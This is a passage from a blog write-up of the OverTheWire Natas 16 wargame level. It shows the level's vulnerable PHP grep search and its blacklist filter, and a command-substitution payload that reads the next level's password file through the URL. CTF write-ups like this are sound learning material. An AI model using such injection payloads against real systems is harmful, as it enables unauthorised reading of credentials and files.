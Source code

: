 ```yaml
---
id: 244
title: 'OverTheWire: NATAS 16 &#8211; 20'
date: 2019-09-13T15:22:13-04:00
author: dwatts.comptech
layout: posts
guid: http://dustinwatts.me/?p=244
permalink: /2019/09/13/overthewire-natas-16/
categories:
  - OverTheWire
---
```

### LEVEL 16

<img class="alignnone size-full wp-image-243" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_14h47_54.png" alt="" width="599" height="302" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_14h47_54.png 599w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-13_14h47_54-300x151.png 300w" sizes="(max-width: 599px) 100vw, 599px" /> 

This level looks a lot like level 9 did with the dictionary lookup and it suggests there are now more input checks. Let&#8217;s see the source:

<pre class="lang:php decode:true ">&lt;form&gt;
Find words containing: &lt;input name=needle&gt;&lt;input type=submit name=submit value=Search&gt;&lt;br&gt;&lt;br&gt;
&lt;/form&gt;


Output:
&lt;pre&gt;
&lt;?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?&gt;
&lt;/pre&gt;</pre>

If you put the same query as level 9 <span class="lang:zsh decode:true crayon-inline">$(cat /etc/natas_webpass/natas17 1>/proc/$$/fd/1)</span>  into the Search field, it doesn&#8217;t work. However, if you put it directly into the address bar after &#8220;index.php?&#8221; it still works! It&#8217;s also pretty obvious this wasn&#8217;t the intended way to solve the challenge, but those are the most fun ways, amirite?

&nbsp;

### LEVEL 17
